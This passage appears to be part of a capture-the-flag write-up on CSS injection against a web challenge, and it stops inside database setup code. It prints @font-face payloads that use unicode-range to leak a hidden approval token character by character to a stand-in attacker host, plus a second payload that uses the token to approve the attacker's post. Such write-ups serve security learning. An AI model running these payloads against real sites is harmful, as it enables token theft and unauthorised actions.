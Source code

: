 It is important to notice that, by simply trying the attack provided at the above link, it will not work. The reason why that happens is because, within the assets->css->bootstrap.css file there is a troublesome rule:

```css
d-none{display:none!important}
```
Since the token will not be displayed, the attack will not work. For this reason, we should overwrite the **display: none !important** rule ourselves. The CSS code should be like the following:

```css
@font-face{
	font-family:attack;
	src:url(http://webhook_attack_server.pwn/?Found:0);
	unicode-range:U+0030;
}
...
@font-face{
	font-family:attack;
	src:url(http://webhook_attack_server.pwn/?Found:z);
	unicode-range:U+007A;
}
p#approvalToken{
 display:inline !important;
 font-family:attack;
}
```
For the full code look at the /attack.css file in the repository.

Note that the requests will be sent in a random order, but by looking again at the way in which the token is generated, we can see that it is sorted, for this reason we just simply need to sort the 32 exfiltrated characters and we got ourselves the token!
The next step should be to use the same trick as before to trigger the approval of our post. For simplicity, let's assume that in the token the first character is **0**, we can just simply use that:

```css
@font-face{
	font-family:attack;
	src:url(/approve/1/23568BDGHIJLPQTUVXZabcdfknrstwxz);
	unicode-range:U+0032;
}
p#approvalToken{
 display:inline !important;
 font-family:attack;
}
```

Now, upon entering /view/1 we will be able to see another section of the web application.
Here we can add comments to the card. Let's look at the code, more precisely at the database code:

```javascript
async migrate() {
        const flagTable = 'flag_' + crypto.randomBytes(4).toString('hex');

        return this.db.exec(`
            PRAGMA case_sensitive_like=ON; 
            
            DROP TABLE IF EXISTS submissions;
            CREATE TABLE IF NOT EXISTS submissions (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                css         TEXT NOT NULL,
                approved    BOOLEAN NOT NULL 
            );

            DROP TABLE IF EXISTS comments;
            CREATE TABLE IF NOT EXISTS comments (
                id               INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                id_submission    INTEGER NOT NULL,
```